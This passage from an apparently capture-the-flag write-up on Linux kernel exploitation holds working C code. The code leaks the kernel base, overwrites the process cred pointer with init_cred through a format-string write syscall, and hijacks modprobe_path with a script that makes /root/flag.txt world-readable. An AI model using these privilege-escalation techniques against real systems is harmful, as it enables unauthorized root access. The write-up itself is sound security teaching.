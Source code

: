 ```c

    char *data[] = {fmt, where, where + 2, where + 4, where + 6};
    syscall(SYSCALL_NO, data);
}

int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);
    uint64_t current_cred_addr = task_struct + 0x6b8;
    uint64_t init_cred = kbase + 0x164e400;

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
    printf("current cred address: %p\n", current_cred_addr);
    printf("init_cred: %p\n", init_cred);

    write_long(current_cred_addr, init_cred);
    system("id; cat /root/flag.txt");
}
```

## Modprobe method
This is more of a shortcut especially for ctfs. You can read the details [here](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/). Bascially, it lets us execute any program/script as root. For this, we just need address of `modprobe_path`. Then, write path to out program/script to run as root and execute a script with invalid header. I modified `init` function for making a shell script to get the flag and a file with invalid header. Note that you won't get the output of the shell script, so I used the script to make the flag file world-readable.
```
# readelf -Ws ./vmlinux_elf| grep -E 'modprobe_path'
118942: ffffffff8264ec60     0 OBJECT  GLOBAL DEFAULT   12 modprobe_path
```
`0xffffffff8264ec60 - 0xffffffff81000000 = 0x164ec60`
```c
__attribute__((constructor)) void init(){
    mkfifo("/home/user/check_fifo", 0666);
    freopen("/home/user/check_fifo", "r+", stdin);
    fd = open("/home/user/check_fifo", O_RDWR);

    system("echo '#!/bin/sh\nchmod 777 /root/flag.txt' > /home/user/to_exec.sh; echo -ne '\\xff\\xff\\xff\\xff' > /home/user/invalid; chmod +x /home/user/to_exec.sh; chmod +x /home/user/invalid");
}

void write_byte(uint64_t where, uint8_t what){
    char fmt[0x30];

    sprintf(fmt, "%%%dc%%1$hhn", what);

    char *data[] = {fmt, where};
    syscall(SYSCALL_NO, data);
}

void write_str(uint64_t addr, char *str){
    for(int i = 0; i < strlen(str); i++){
        write_byte(addr + i, str[i]);
    }
}
```